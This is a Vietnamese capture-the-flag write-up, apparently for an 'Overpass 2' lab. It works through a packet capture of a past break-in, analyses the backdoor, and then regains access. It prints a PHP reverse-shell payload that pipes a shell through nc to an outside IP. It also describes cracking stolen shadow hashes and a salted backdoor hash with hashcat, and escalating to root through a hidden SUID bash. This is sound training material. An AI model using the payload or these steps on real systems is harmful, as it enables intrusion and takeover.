## Forensics - Phân tích PCAP

> Overpass đã bị hack! Đội SOC (Paradox, chúc mừng vì được thăng chức) đã phát hiện hoạt động đáng ngờ trong một ca trực đêm muộn khi đang xem shibes, và đã kịp thời bắt gói tin trong lúc cuộc tấn công diễn ra.

Từ thông tin trên mình nhận được file `overpass2_1595383502269.pcapng`.



Phân tích sơ qua mình thấy một stream bắt được khi kẻ tấn công upload reverse shell thông qua `/development/upload.php` với payload:

```php
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```



Người này sau khi có được shell đã thực hiện truy cập sang người dùng `james`.



Kẻ này đã thiết lập một `persistence` bằng cách cài một backdoor.



Tại đây, hắn cũng lấy thông tin file `shadow`, mình cũng sử dụng file này kèm theo wordlist `fasttrack` thì giải mã được mật khẩu của 4 tài khoản.



## Research - Phân tích mã nguồn

Kiểm tra mã nguồn một chút thì `backdoor` này sử dụng hash mặc định là:



Kèm theo đó có `salt` là:



Nhưng khi thực thi `backdoor` thì kẻ tấn công dùng một hash khác là:

```
6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
```

Từ các thông tin trên mình sẽ giải mã hash mà kẻ tấn công đã sử dụng, trong mã nguồn `backdoor` này sử dụng thuật toán hash `SHA512` kèm salt:



Công cụ `hashcat` có hỗ trợ thuật toán này ở mode `1710` và sau khi giải xong mình đã có được plain text.



## Attack - Get back in!

Từ các thông tin trên, mình truy cập vào website mục tiêu thì thấy nó đã bị kẻ tấn công deface.



Mình thực hiện SSH vào `james` với các thông tin mình tìm được, nhưng không có quyền truy cập.

Vấn đề nằm ở đây, kẻ tấn công không SSH vào port mặc định (22) mà SSH vào port `2222`.



Sau khi SSH ở port `2222` thì mình đã có quyền truy cập vào người dùng `james`.



Tại thư mục `/home` của `james`, mình tìm thấy flag trong file `user.txt`.



Và cũng tại đây kẻ tấn công đã để lại một file thực thi bị ẩn `.suid_bash`.

Sau một tí thời gian, khi thực thi file và tìm hiểu thì mình thực thi lệnh theo hướng dẫn.

```bash
Type `./.suid_bash -c "help set"' for more information about shell options.
```

Trong này mình tìm thấy tùy chọn `-p` có vẻ sẽ giúp mình leo thang đặc quyền.



Khi thực thi thành công, mình đã có quyền `root` và tìm thấy flag trong file `root.txt` tại thư mục `/root`.



